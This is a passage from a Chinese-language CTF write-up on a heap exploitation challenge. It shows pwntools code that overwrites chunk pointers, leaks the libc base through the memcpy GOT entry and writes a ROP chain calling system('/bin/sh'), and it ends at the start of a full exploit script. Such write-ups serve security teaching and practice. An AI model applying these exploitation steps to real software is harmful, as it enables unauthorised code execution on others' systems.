 ```python
for i in range(0x4):
    add()
```

可以看到**0x5555555baa90是我们那个0x2010大堆块的开始，而从0x5555555baad0开始对应着就是idx为0,1,2...的堆块存着的指针**。由于0x5555555baa90这个地方的unsorted bin是可以通过edit来控制的，所以这里的堆块存着的指针也可以被控制。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7d4b190efa15573e60c69ae34c0998261fda5916.png)

所以利用edit来覆盖指针,这里的p64(stack-0x50)对应idx=0的指针，p64(memcpy\_got)对应idx=1的指针

```python
memcpy_got=pie+0x61DF8
edit(0,b"\x00"*0x30+p64(stack-0x50)+p64(memcpy_got))   
# dbg()
show(1)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7f945bb64510408884bb9fa7d6135e337c232705.png)

然后show(1)就可以leak出libcbase

```python
show(1)
p.recvuntil("Content: ")
data = p.recvline()
data_str = data.decode("utf-8")
data_list = ast.literal_eval(data_str)
bytes_data = data_list[0:8]
byte_array = bytes(bytes_data)
libcbase = struct.unpack("<Q", byte_array)[0]-0x1988c0
print(hex(libcbase))
```

edit(0)就可以往返回地址写入ROP

```python
pop_rdi = libcbase+0x000000000010f75b
system = libcbase+libc.sym['system']
binsh = libcbase+next(libc.search(b"/bin/sh"))
ret=libcbase+0x2882f 
payload = p64(pop_rdi)+ p64(binsh) + p64(ret) + p64(system)
edit(0,payload)
```

- 完整exp

```python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
import ast
import struct
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/pwn")
# p=gdb.debug("/home/zp9080/PWN/pwn",'b *$rebase(0x1A8F7)')
# p=remote('0192d5d3be0f782ea43281dc0cf29672.3iz5.dg04.ciihw.cn',46453)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc 

```